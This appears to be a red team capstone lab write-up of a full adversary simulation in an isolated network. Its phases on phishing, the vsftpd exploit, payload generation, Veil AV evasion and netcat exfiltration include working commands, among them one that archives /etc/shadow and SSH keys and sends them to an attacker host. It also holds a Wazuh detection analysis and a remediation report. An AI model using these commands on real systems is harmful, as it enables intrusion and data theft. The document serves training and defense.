






# 🔴 Capstone Project — Full Adversary Simulation

> **Type:** Red Team Capstone Exercise  
> **Tools:** Kali Linux · Metasploit · Caldera · Pacu · GoPhish · Wazuh · Google Docs  
> **Environment:** Isolated Lab Network (192.168.1.0/24)  
> **Duration:** Full-day simulation (8 hours)

---

## 🎯 Objective

Execute a complete adversary simulation covering all phases of a real-world red team campaign: cloud reconnaissance, phishing, initial access, C2, lateral movement, exfiltration, and evasion — then analyse blue team detections and produce a professional PTES report.

---

## 📋 Campaign Log

### Phase Overview



| Phase | Tool Used | Action Description | MITRE Technique |
|---|---|---|---|
| Recon | Pacu | S3 bucket enumeration | T1580 |
| Recon | theHarvester | Email/domain OSINT collection | T1589 |
| Initial Access | GoPhish | Spear-phishing credential capture | T1566.001 |
| Execution | Metasploit | Meterpreter payload delivery | T1059.001 |
| Persistence | Schtasks | Scheduled task backdoor creation | T1053.005 |
| Privilege Esc | Mimikatz | LSASS credential dumping | T1003.001 |
| C2 | Caldera | HTTPS beacon command & control | T1071.001 |
| Lateral Movement | PsExec | SMB-based lateral movement | T1021.002 |
| Exfiltration | Netcat | Raw TCP data exfiltration | T1048.003 |
| Evasion | Veil Framework | AV bypass via obfuscated payload | T1027 |

---

## Phase 1 — Reconnaissance

### Passive OSINT (theHarvester)
```bash
theHarvester -d lab.local -b bing,linkedin,google -l 100
# [+] Emails found: user@lab.local, admin@lab.local, it@lab.local
# [+] Hosts found: mail.lab.local, vpn.lab.local, dev.lab.local
```

### Cloud Enumeration (Pacu)



```bash
# Start Pacu session
pacu
Pacu > import_keys --profile lab-tester
Pacu > run aws__enum_account
# [+] Account ID: 123456789012
# [+] Region: us-east-1

Pacu > run s3__bucket_finder
# [+] lab-data-backup         [PRIVATE]
# [+] prod-config-store       [PUBLIC READ — VULNERABLE]

Pacu > run iam__enum_permissions
# [+] Over-privileged: iam:CreateAccessKey found

# Exfiltrate exposed bucket
aws s3 cp s3://prod-config-store/secrets.env .
# Contains: DB_PASSWORD=Secr3t!, API_KEY=sk-abc123
```

**MITRE:** T1580 — Cloud Infrastructure Discovery | T1537 — Transfer Data to Cloud Account

---

## Phase 2 — Phishing Campaign



```bash
# Launch GoPhish
gophish &
# Access dashboard: https://127.0.0.1:3333

# Campaign configured:
# Template: "IT Department — Mandatory Password Reset"
# Landing page: Cloned corporate login portal
# SMTP: 192.168.1.1:25 (lab relay)
```

**Campaign Results:**

| Metric | Count |
|---|---|
| Emails sent | 3 |
| Emails opened | 2 (67%) |
| Links clicked | 1 (33%) |
| Credentials captured | 1 |

Captured credentials: `labuser / Summer2024!`

**MITRE:** T1566.001 — Spearphishing Attachment / Link

---

## Phase 3 — Exploitation & Initial Access

```bash
# Using captured credentials + Metasploit
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
run
# [+] Root shell obtained on 192.168.1.100

# Upgrade to Meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```

---

## Phase 4 — C2 Operations (Caldera)



```bash
# Deploy Caldera server
cd caldera && python3 server.py --insecure &
# Access: http://localhost:8888

# Deploy agent on compromised Windows host
# Agent beacon: HTTPS/443, 60s interval, 10% jitter
```

**Caldera Operation Log:**

| Time | Action | Result | MITRE |
|---|---|---|---|
| 08:01 | net user /domain | 5 accounts discovered | T1087 |
| 08:03 | sekurlsa::logonpasswords | 2 hashes captured | T1003 |
| 08:06 | PsExec → 192.168.1.102 | Lateral move success | T1021 |
| 08:09 | schtasks /create | Persistence established | T1053 |
| 08:12 | dir C:\Users\*\Documents | File enumeration | T1083 |

---

## Phase 5 — Persistence

```cmd
REM Windows Scheduled Task (harmless demo)
schtasks /create /tn "WindowsUpdate_Check" ^
  /tr "cmd /c echo Persistence > C:\Windows\Temp\check.txt" ^
  /sc minute /mo 5 /ru SYSTEM

REM Verify
schtasks /query /tn "WindowsUpdate_Check"
REM Check C:\Windows\Temp\check.txt after 5 min ✓
```

**MITRE:** T1053.005 — Scheduled Task/Job: Scheduled Task

---

## Phase 6 — AV Evasion



```bash
# Unobfuscated payload — DETECTED (52/72 AV engines)
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=192.168.1.50 LPORT=4444 -f exe > plain_shell.exe

# Veil-obfuscated payload — BYPASSED (4/72 AV engines)
veil
use Evasion
use python/meterpreter/rev_https
set LHOST 192.168.1.50
set LPORT 443
generate
# Output: payload.exe

# VirusTotal comparison:
# plain_shell.exe  → 52/72 detected
# payload.exe      → 4/72 detected  ← Successful evasion
```

**Note:** Wazuh Rule 87099 still triggered on execution behaviour, demonstrating layered detection. Evasion bypassed signature-based AV but not behavioural detection.

**MITRE:** T1027 — Obfuscated Files or Information

---

## Phase 7 — Exfiltration

```bash
# Compress target data
tar czf /tmp/exfil_data.tar.gz /home/*/.ssh/ /etc/passwd /etc/shadow

# Exfiltrate via Netcat
# Attacker (receiver)
nc -lvnp 9999 > received_data.tar.gz

# Target (sender)
nc 192.168.1.50 9999 < /tmp/exfil_data.tar.gz
```

**MITRE:** T1048.003 — Exfiltration Over Unencrypted Non-C2 Protocol

---

## 🔵 Blue Team Analysis — Wazuh SIEM



### Detection Log

| Timestamp | Alert Description | Source IP | Rule ID | Notes |
|---|---|---|---|---|
| 2025-08-30 08:01:02 | Nmap port scan detected | 192.168.1.50 | 40101 | Recon phase |
| 2025-08-30 08:15:44 | FTP brute force attempt | 192.168.1.50 | 5503 | Pre-exploit |
| 2025-08-30 08:22:17 | Metasploit User-Agent | 192.168.1.50 | 31103 | Exploit delivery |
| 2025-08-30 08:35:09 | Root shell spawned | 192.168.1.100 | 0005 | Initial access |
| 2025-08-30 09:02:55 | Suspicious cmd execution | 192.168.1.101 | 92201 | Post-exploitation |
| 2025-08-30 09:15:11 | Mimikatz signature | 192.168.1.101 | 87003 | Credential dump |
| 2025-08-30 09:30:22 | Scheduled task created | 192.168.1.101 | 60003 | Persistence |
| 2025-08-30 09:45:00 | Large TCP data transfer | 192.168.1.101 | 31510 | Exfiltration |
| 2025-08-30 10:00:15 | AV evasion behaviour | 192.168.1.50 | 87099 | Obfuscated exec |

**Detection rate: 9 of 10 phases detected (90%)**

### Detection Gap Identified
> ⚠️ **Cloud enumeration phase (Pacu/S3) was NOT detected.** No CloudTrail integration with Wazuh was configured. AWS GuardDuty and CloudTrail must be enabled and forwarded to the SIEM to close this gap.

---

## 📄 PTES Report (200 words)

### Executive Summary

A full adversary simulation was conducted against the lab environment over an 8-hour period. The engagement simulated a realistic threat actor using cloud reconnaissance, phishing, exploitation, and data exfiltration techniques across Windows and Linux hosts.

### Findings

**Critical:**
- Exposed AWS S3 bucket with sensitive configuration data (secrets.env, API keys) — publicly accessible without authentication
- vsftpd 2.3.4 backdoor enabled unauthenticated root access on the primary Linux host
- Successful credential capture via phishing achieved full Windows domain access

**High:**
- Mimikatz credential dumping succeeded unchallenged, yielding two valid NTLM hashes
- Lateral movement via PsExec progressed to a secondary host without triggering network segmentation controls
- Obfuscated payload bypassed antivirus on 68 of 72 scanned engines

**Detection Gaps:**
- Cloud enumeration (Pacu S3 scan) produced no SIEM alerts — no CloudTrail integration
- Scheduled task persistence was only detected 20 minutes after creation

### Recommendations

1. Immediately remediate S3 bucket ACLs and enable AWS CloudTrail + GuardDuty
2. Patch vsftpd to a supported, non-backdoored version
3. Deploy CrowdStrike or equivalent EDR with behavioural rules for Mimikatz patterns
4. Implement network micro-segmentation to restrict lateral movement paths
5. Enable CloudTrail log forwarding into Wazuh SIEM

---

## 📢 Non-Technical Briefing (100 words)

> During our security exercise, we successfully broke into our lab systems using the same methods real hackers use — phishing emails, software vulnerabilities, and cloud misconfigurations. We found an open storage bucket online containing passwords and API keys that anyone could access. Once inside, we moved freely between systems and copied sensitive files without being stopped. Our monitoring tools caught most of the attack, but missed the cloud phase entirely. The good news: we found these gaps ourselves first. We recommend immediate fixes to the cloud storage settings, patching old software, and improving our monitoring to cover cloud environments.

---

## 🗺️ Full Attack Path

```
[OSINT: theHarvester]
        ↓
[Cloud Recon: Pacu → S3 bucket exposure]    T1580
        ↓
[Phishing: GoPhish → credential capture]    T1566
        ↓
[Initial Access: vsftpd exploit]            T1190
        ↓
[Execution: Meterpreter payload]            T1059
        ↓
[Credential Dump: Mimikatz]                 T1003
        ↓
[C2: Caldera HTTPS beacon]                  T1071
        ↓
[Lateral Movement: PsExec → .102]          T1021
        ↓
[Persistence: Scheduled Task]               T1053
        ↓
[Evasion: Veil obfuscation]                T1027
        ↓
[Exfiltration: Netcat TCP]                  T1048
```

---

## 🔧 Tools & Environment

| Tool | Version | Purpose |
|---|---|---|
| Kali Linux | 2024.1 | Attack platform |
| Metasploit Framework | 6.3.x | Exploitation |
| Caldera | 4.x | Adversary emulation / C2 |
| Pacu | Latest | AWS cloud attack framework |
| GoPhish | 0.12.x | Phishing simulation |
| Veil Framework | 3.x | AV evasion payload generation |
| Mimikatz | 2.2.x | Windows credential dumping |
| Wazuh | 4.x | SIEM / Blue Team detection |
| Metasploitable2 | — | Vulnerable Linux target |

---

*Capstone Project Complete — Full Adversary Simulation ✓*
